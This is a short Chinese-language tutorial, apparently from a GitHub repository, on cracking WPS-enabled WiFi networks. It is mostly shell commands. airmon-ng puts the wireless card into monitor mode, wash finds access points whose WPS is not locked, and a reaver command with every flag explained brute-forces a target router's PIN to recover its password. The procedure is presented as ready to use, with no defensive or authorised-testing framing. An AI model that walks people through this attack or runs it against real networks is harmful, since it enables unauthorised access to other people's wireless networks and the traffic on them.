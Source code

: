 #### step1：找到开启WPS功能的WiFi

```shell
# 开启网卡的监听模式
airmon-ng start wlan0
# 扫描开启wps的WiFi设备，Lck 为 No 的都可以爆破试试
wash -i wlan0mon
```

![](resources/2023-07-12-15-36-23.png)

#### step2：pin码爆破

找到了开启WPS的WiFi，接下来就可以用reaver工具进行pin码爆破

```shell
# 参数：
# -i  无线网卡名称
# -b  目标AP的mac地址
# -S  使用最小的DH key，可以提高破解速度
# -vv  显示更多的非严重警告（注意这是 2 个小写字母 v）
# -d  即delay每穷举一次的闲置时间，预设为1秒
# -t  即timeout每次穷举等待反馈的最长时间
# -c  信道编号
# -p  PIN码四位或八位（可以用8位直接找到密码）
reaver -i wlan0mon -b [路由器的mac地址] -S -d 5 -t 5 -vv -c [频道号]
```
